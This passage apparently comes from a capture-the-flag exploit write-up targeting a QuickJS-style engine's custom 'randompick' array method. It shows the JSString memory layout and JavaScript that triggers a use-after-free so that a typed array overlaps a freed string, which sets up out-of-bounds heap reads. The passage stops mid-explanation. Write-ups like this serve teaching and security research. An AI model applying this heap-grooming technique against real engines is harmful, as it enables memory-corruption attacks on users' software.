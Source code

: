 Next we'll quickly look into how `JSString` object is present in the memory as it will give us an easy way to get an OOB in the heap.

```
type = struct JSString {
/* 0x0000      |  0x0004 */    JSRefCountHeader header;
/* 0x0004: 0x0 |  0x0004 */    uint32_t len : 31;
/* 0x0007: 0x7 |  0x0001 */    uint8_t is_wide_char : 1;
/* 0x0008: 0x0 |  0x0004 */    uint32_t hash : 30;
/* 0x000b: 0x6 |  0x0001 */    uint8_t atom_type : 2;
/* 0x000c      |  0x0004 */    uint32_t hash_next;
/* 0x0010      |  0x0000 */    union {
/*                0x0000 */        uint8_t str8[0];
/*                0x0000 */        uint16_t str16[0];

                                   /* total size (bytes):    0 */
                               } u;

                               /* total size (bytes):   16 */
                             }
```

As you can see, the second field in this object is the size of the string. So if we can get an `UAF` on this object, then we can get `OOB` leaks from what is after this object in the heap.

## Exploitation:

### Getting a UAF:

In order to get the `UAF`, lets abuse the `randompick` in the following way.

```js
let dummy = new ArrayBuffer(0x48);
let str = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ";
let uaf = [str];

uaf.randompick();
uaf.randompick();
uaf.randompick();
uaf.randompick();

uaf[0] = dummy;
uaf.randompick();
uaf.randompick();
uaf.randompick();   

let dummy2 = new ArrayBuffer(0x500);
let overlap1 = new Uint32Array(16);
```

`overlap1` will have its `backing_store` (data) pointing to the `str` object. How? Let us go step by step. (Just keep in mind that after all those `randompick` calls, the object will be freed in memory.)
